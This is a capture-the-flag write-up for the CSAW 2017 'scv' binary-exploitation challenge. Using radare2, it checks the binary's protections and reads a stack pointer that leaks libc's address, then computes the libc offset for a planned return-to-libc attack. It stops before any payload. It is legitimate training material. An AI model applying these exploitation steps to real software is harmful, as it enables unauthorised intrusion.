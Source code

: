 
Pwn 100p "scv" using radare2
============================

SCV is too hungry to mine the minerals. Can you give him some food?

`nc pwn.chal.csaw.io 3764`

----

```bash
$ file ./scv
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked
```

```bash
$ r2 ./scv -c info
canary   true
nx       true 
pic      false
relro    partial
relocs   false
stripped true
...
```

NX security mechanism active. 
Therefore we cannot use the stack to execute arbitrary code.

Most likely this is a ret2libc (return-to-libc) attack.

Using `pxr @rsp` at bp 0x00400b0a it is notable

```python
[0x00400b0a]> pxr @rsp
0x7fff48aab750  0x0000000100000000   ........ @rsp
0x7fff48aab758  0x0000000400000001   ........
0x7fff48aab760  0x0000000041414141   AAAA.... @rsi ascii
0x7fff48aab768  0x00000000006022f9   ."`..... (LOAD1) (/root/ctf/csaw17/scv/scv) program R W 0x0 --> r14
0x7fff48aab770  0x0000000000400930   0.@..... (LOAD0) (/root/ctf/csaw17/scv/scv) sub._ZNSt8ios_base4InitD1Ev_72_930 sub._ZNSt8ios_base4InitD1Ev_72_930 program R X 'jmp qword [rip + 0x201712]' 'scv'
0x7fff48aab778  0x0000000000400930   0.@..... (LOAD0) (/root/ctf/csaw17/scv/scv) sub._ZNSt8ios_base4InitD1Ev_72_930 sub._ZNSt8ios_base4InitD1Ev_72_930 program R X 'jmp qword [rip + 0x201712]' 'scv'
0x7fff48aab780  0x0000000000602080   . `..... (LOAD1) (/root/ctf/csaw17/scv/scv) program R W 0x0 --> r14
0x7fff48aab788  0x00007f65b306c299   ....e... (/root/ctf/csaw17/scv/libc-2.23.so) library R X 'test rax, rax' 'libc-2.23.so'
...
```

Look at the last line. That is a junk on the stack pointing in to libc. Great!

Find where libc is dynamically loaded using `dmi`:
````python
[0x00400b0a]> dmi
0x00400000 /root/ctf/csaw17/scv/scv
0x7f65b3032000 /root/ctf/csaw17/scv/libc-2.23.so
...
````

Lets find out the offset to the junk found on the stack: 0x7f65b306c299 - 0x7f65b3032000 = 0x3a299.
Perfect! Now we have a reference to map._root_ctf_csaw17_scv_libc_2.23.so.
